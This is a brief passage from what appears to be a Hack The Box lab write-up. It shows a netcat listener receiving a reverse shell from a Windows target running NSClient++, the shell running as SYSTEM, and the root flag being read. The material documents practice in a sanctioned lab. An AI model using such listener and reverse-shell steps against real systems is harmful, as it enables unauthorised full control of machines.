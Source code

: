 ```bash
❯ sudo rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.184] 49974
Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
nt authority\system

C:\Users\Administrator\Desktop>type root.txt
23249f11733220bbbd...
```

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/240)

---
